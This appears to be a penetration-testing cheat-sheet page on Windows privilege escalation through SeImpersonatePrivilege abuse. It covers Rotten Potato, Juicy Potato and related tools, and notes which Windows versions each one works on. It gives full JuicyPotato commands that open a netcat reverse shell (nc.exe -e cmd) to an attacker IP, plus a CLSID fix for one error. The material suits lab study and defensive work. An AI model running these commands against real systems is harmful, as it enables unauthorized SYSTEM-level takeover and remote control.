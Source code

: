 ### Rotten Potato

In 2016, the original Rotten Potato flaw was discovered. A SYSTEM ticket could be intercepted by a service account and used to impersonate the SYSTEM user. Because service accounts typically have the “SeImpersonatePrivilege” ability enabled, this was conceivable.

### Juicy Potato Privilege Escalation

The exploit Rotten Potato was relatively restricted. Juicy Potato works in the same manner that Rotten Potato does, but the authors performed a lot of research and came up with a lot of new ways to use it.

{% embed url="https://github.com/ohpe/juicy-potato" %}

We can execute JuicyPotato with the following example:

```
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443"
```

#### Error 10038

This usually happens when the CLSID is not correct. As we know with the system that we are on a Windows 10 Enterprise machine, we can look for the correct CLSID in [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) we find the corresponding CLSID, and with the parameter -c:

```
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

## Common Exploits

[Juicy Potato](https://github.com/ohpe/juicy-potato) Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation

⚠️ Works only until Windows Server 2016 and Windows 10 until patch 1803

[Lovely Potato](https://github.com/TsukiCTF/Lovely-Potato) Automated Juicy Potato

⚠️ Works only until Windows Server 2016 and Windows 10 until patch 1803

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) Exploit the PrinterBug for System Impersonation

🙏 Works for Windows Server 2019 and Windows 10

[RoguePotato](https://github.com/antonioCoco/RoguePotato) Upgraded Juicy Potato

🙏 Works for Windows Server 2019 and Windows 10

## Network

### Port Forwarding
